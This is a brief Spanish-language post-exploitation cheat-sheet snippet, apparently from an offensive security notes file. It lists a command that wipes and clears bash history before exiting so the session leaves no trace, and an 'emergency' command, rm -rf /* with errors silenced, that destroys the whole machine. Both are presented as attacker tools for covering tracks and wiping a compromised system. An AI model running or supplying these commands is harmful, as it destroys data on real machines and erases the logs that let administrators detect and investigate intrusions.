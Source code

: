 ## POST-EXPLOTACION

(cierra la sesión y borra todo el historial de comandos del bash history sin registrar exit al salir)

``echo "" > ~/.bash_history && history -c && exit`` 

(borra toda la maquina, hacer solo en caso de emergencia)

``(rm -rf /*) 2>/dev/null``

